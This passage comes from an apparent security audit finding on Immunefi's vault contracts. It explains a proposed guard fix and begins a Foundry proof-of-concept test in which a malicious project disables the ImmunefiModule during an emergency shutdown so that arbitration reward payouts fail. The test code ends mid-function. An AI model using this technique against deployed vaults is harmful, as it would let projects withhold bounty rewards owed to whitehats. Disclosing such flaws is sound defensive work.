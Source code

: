 ```diff
+            }
         }

         if (guardBypassers[msgSender]) {

```

The ability to add/remove guards is not critical in case of emergency, especially given the fact that the Emergency System bypasses both the  `ImmunefiModule`  and the  `ImmunefiGuard`. Moreover, it is imperative that Immunefi vaults are used solely for the purposes of reward distribution for bug bounty programs at Immunefi. Thus, blocking the ability to add/remove modules/guards does not affect the ability of the protocol to withdraw their funds or perform other critical functions in case of an emergency.

## References

[https://github.com/immunefi-team/vaults/blob/49c1de26cda19c9e8a4aa311ba3b0dc864f34a25/src/guards/ImmunefiGuard.sol#L66-L68](https://github.com/immunefi-team/vaults/blob/49c1de26cda19c9e8a4aa311ba3b0dc864f34a25/src/guards/ImmunefiGuard.sol#L66-L68)

### Proof of concept

## Proof of Concept

The vulnerability could be reproduced by modifying the  `Arbitration.t.sol`  file and adding the following test to it.

The implemented scenario demonstrates how a malicous project could disable their vault's  `ImmunefiModule`  during emergency which later on results in revert of payouts which are attempted by the Arbitration system.

```sol
    function testMaliciousProjectCanCauseSendRewardToFailAfterEmergencyShutdown() public {
        // 0. Set right permissions on moduleGuard
        vm.startPrank(protocolOwner);
        moduleGuard.setTargetAllowed(address(vaultDelegate), true);
        moduleGuard.setAllowedFunction(address(vaultDelegate), vaultDelegate.sendTokens.selector, true);
        moduleGuard.setDelegateCallAllowedOnTarget(address(vaultDelegate), true);

        moduleGuard.setTargetAllowed(address(vaultDelegate), true);
        moduleGuard.setAllowedFunction(address(vaultDelegate), vaultDelegate.sendReward.selector, true);
        moduleGuard.setDelegateCallAllowedOnTarget(address(vaultDelegate), true);
        vm.stopPrank();

        // 0. Arbitration ref ID
        uint96 referenceId = 1;

        // 0. Mint feeAmount of feeToken to whitehat
        ERC20PresetMinterPauser token = ERC20PresetMinterPauser(address(arbitration.feeToken()));
        vm.startPrank(protocolOwner);
        token.mint(whitehat, arbitration.feeAmount());
        vm.stopPrank();

        // 1. Protocol owner enables emergency shutdown since a critical issue was found in the Arbitration protocol
        vm.prank(protocolOwner);
        emergencySystem.activateEmergencyShutdown();

        bytes memory disableImmunefiModuleHashData = vault.encodeTransactionData({
            to: address(vault),
            value: 0,
            data: abi.encodeCall(vault.disableModule, (address(0x1), address(immunefiModule))),
```